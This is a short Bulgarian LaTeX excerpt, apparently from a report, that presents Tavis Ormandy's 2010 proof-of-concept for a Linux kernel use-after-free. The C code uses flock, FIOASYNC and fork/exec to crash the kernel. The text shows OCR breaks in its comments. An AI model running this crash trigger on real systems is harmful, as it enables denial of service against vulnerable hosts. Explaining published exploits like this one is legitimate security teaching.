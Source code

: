 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\subsection{Exploit}
\paragraph{}
Примерен exploit е публикуван от Тавис Орманди(2010-01-14).
\paragraph{}
Exploit-ът използва модифициран указател от потребителската памет, като 
целта е да предизвика забиване.
\begin{verbatim}
int main(int argc, char **argv)
{
    int fd;
    pid_t child;
    unsigned flag = ~0;
    fd = open("/dev/urandom", O_RDONLY);
// установяване на екслузивно заключване без блокиране 
flock(fd, LOCK_EX | LOCK_NB);
    // вдигане на ASYNC флага на дескриптора
    ioctl(fd, FIOASYNC, &flag);
    // затваряне на файловия дескриптор, за да се предизвика проблема
    close(fd);
    // извършване на операции с цел да се запълни AT_RANDOM, което ще 
предизвика използването на освободеният файл
    // Предполага се, че /bin/true е elf executable4
 и че ядрото 
поддържа AT_RANDOM.
    do switch (child = fork()) {
            case  0: execl("/bin/true", "/bin/true", NULL);
                     abort();
            case -1: fprintf(stderr, "fork() failed, %m\n");
                     break;
            default: fprintf(stderr, ".");
                                 break;
    } while (waitpid(child, NULL, 0) != -1);
    fprintf(stderr, "waitpid() failed, %m\n");
    return 1;}
\end{verbatim}

\newpage
\part{Статистически анализ}
\setcounter{section}{0}
\end{document}
